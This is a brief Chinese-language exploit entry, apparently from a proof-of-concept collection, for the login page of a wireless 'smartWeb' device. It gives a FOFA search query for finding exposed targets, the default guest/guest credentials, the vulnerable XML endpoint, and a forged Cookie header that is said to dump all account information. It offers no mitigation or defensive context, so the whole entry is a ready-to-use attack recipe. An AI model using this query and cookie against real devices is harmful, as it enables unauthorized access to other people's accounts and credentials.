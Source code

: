 <languages  />

FOFA
----

    title="无线smartWeb--登录页面"

默认guest密码
-------------

    guest/guest

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞位置
--------

</div>
    http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞利用
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
Cookice添加以下內容

</div>
    Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest

<div lang="chinese" dir="ltr" class="mw-content-ltr">
可以獲取所有賬戶信息

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<https://mp.weixin.qq.com/s/EICYTqRWDRB8OfXKHxCBfQ>